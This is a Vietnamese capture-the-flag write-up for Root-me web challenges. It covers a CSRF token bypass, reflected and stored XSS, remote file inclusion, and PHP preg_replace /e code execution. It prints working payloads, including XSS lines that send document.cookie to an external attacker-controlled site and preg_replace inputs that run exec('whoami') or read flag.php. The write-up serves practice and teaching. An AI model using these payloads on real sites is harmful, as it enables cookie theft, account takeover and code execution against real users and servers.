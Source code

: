 # Root-me
``capy3ra``

## CSRF – token bypass

1. Để lấy được flag trong action=private thì tài khoản của attacker phải được admin approved bằng cách tick checkbox ở action=profile.
2. Vector tấn công ở đây sẽ là action=contact khi mà gửi comment thì admin sẽ đọc comment. Và ta sẽ poisoning input đó.
3. Tuy nhiên ở đây, server triển khai csrf token. Do đó trước hết phải lấy được token của admin ở action=profile. Chúng ta có thể lấy được token đó bằng cách gửi một request đến action=profile với admin session khi mà ta lừa admin đọc comment mà ta gửi kèm với payload. 
```
var request = new XMLHttpRequest();
request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
request.send(null); 
var respone = request.responseText; 
var groups = respone.match("token\" value=\"(.*?)\""); 
var token = groups[1];
```

4. Sau đó tạo một form có checkbox có giá trị "on" với username account của attacker được tự động gửi. Dẫn đến account của attacker có thể được admin approved.
5. Toàn bộ Payload:
```
<form name="csrf" method="POST" action="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" enctype="multipart/form-data">
	<input id="username" type="text" name="username" value="cuong">
	<input id="status" type="checkbox" name="status" checked value="on">
	<input id="token" type="hidden" name="token" value= />
</form>

<script>
 	var request = new XMLHttpRequest();
 	request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
 	request.send(null); 
 	var respone = request.responseText; 
 	var groups = respone.match("token\" value=\"(.*?)\""); 
 	var token = groups[1];
	document.getElementById("token").value = token;
    document.csrf.submit();

</script>
```
6. Vào action=private lấy flag.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/b6eb6b27-cf83-4790-9ac6-c4e93463e4ac)

## XSS - Reflected

1. Ở đây khi view source của trang home nhận thấy một comment trỏ đến một endpoint khả nghi
``<!--li><a href="?p=security">Security</a></li-->``
2. Khi truy cập đến endpoint đó, trang trả về trang not found nhưng có một tính năng có khả năng thực thi xss đó là `report to the adminitrator` nó sẽ gửi url hiện tại cho admin.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/7c494b7f-f1cf-49fa-b604-d85729af6a51)
3. Khi thử chèn xss payload `<script>alert(1)</script> vào param p thì nhận thấy nó vẫn nằm trong thuộc tính href và bị escapse.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/3cc8c278-2390-4402-91be-42088bbce90c)
4. Thử inject để escapse thuộc tính href bằng payload `test' onmousemove='alert(document.cookie)` thì nhận thấy thành công.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/3f2b372a-201b-496f-ad39-3c4b08d983f1)
5. Craft payload để sau khi report url cho admin mà admin thực hiện một event xác định đó thì sẽ redirect tới trang mà attacker có thể kiểm soát. Payload:
``test' onmousemove='document.location="http://oceanmancuonh.site?cmd=".concat(document.cookie)``
6. Vào access_log của server để có thể lấy được cookie có chứa flag.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/74394933-97c5-48f9-add3-1ef5c9f3488e)

## XSS - Stored 2

1. Ở bài này nhận thấy rằng input truyền vào ở title và message đều bị filter không thể inject xss được.
2. Tuy nhiên nhận thấy khi thay đổi giá trị cookie status thì nó cũng reflect lại ở phần Posted messages.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/36fee880-5d29-41aa-b5af-ecee91de1c54)
3. Inject thử xss vào với payload `"><script>alert(1)</script>` thì thấy thành công.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/06fbd079-8e1e-471b-94ca-09e2653253ab)
4. Được biết sau khi gửi message thì admin sẽ đọc và dựa vào tiêu đề chal -> ta sẽ thực  hiện stored xss với payload sau để lấy cookie của admin.
``"><script>document.location='http://oceanmancuonh.site?c='+document.cookie</script>``
5. Vào access_log thì nhận thấy chúng ta có được admincoookie.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/f30cfa35-49b8-4c86-b50f-50495d8cda27)
6. Thêm admincookie rồi vào endpoint session=admin thì nhận được flag.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/a0bee487-2455-4b01-911f-5f2a91328bf3)

## Remote File Inclusion

1. Ở bài này có thể thấy hint từ tiêu đề là RFI vào param `lang`.
2. Thử nhiều payload nhận thấy trong thông báo lỗi rằng các đầu vào đều được thêm đoạn `_lang.php` vào.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/207dc1c5-ec46-47cb-8009-913a57e1dfce)
3. Để bypass nó thử các trick như `%00` hay `#` đều không được. Nhưng `?` thì lại thành công.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/53805ead-2610-475a-ab9b-c3d285dd3329)
4. Tạo một endpoint trên site của mình. (Ở đây phải đổi payload.php về payload vì để .php là 1 file chứ k phải 1 endpoint =.=)
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/a67164e6-6ed7-4bfc-99a3-e011eca19d84)
5. Trỏ về endpoint đấy, mở source.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/91322818-374b-4e28-856d-cc1daf411190)

## PHP – preg_replace()

1. Ở bài này thử sử dụng hàm preg_replace(). Đồng thời search các cách bypass hàm này thì nhận thấy trong php ver < 5.5 modifier “e”, khi xuất hiện trong patterns thì hàm preg_replace() sẽ parse replacements thành mã PHP, sau đó sẽ tìm kiếm patterns trong chuỗi input và thay nó bằng kết quả thực thi.
2. Sau khi thử nhiều payload.
``
search=/microsoft/e&replace=exec('whoami');&content=Visit+Microsoft
Visit Microsoft
search=microsoft/e&replace=exec('whoami');&content=Visit+microsoft
Warning: preg_replace(): Delimiter must not be alphanumeric or backslash in /challenge/web-serveur/ch37/index.php on line 25
search=/microsoft/e&replace=exec('whoami');&content=Visit+microsoft
Warning: exec() has been disabled for security reasons in /challenge/web-serveur/ch37/index.php(25) : regexp code on line 1
``
3. Nhận thấy được một vài điều rằng patterns chưa có dấu / ở đầu.
4. Các hàm như exec, shell_exec, system đều bị filter. Ở đây ta có thể dùng các hàm sau đều có thể exploit được đó là `phpinfo()`, `file_get_content("flag.php")` hoặc `fread(fopen("flag.php","r"),filesize("flag.php"))`
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/9c01d6f4-804d-4c8a-928f-40d0529d1b51)

##
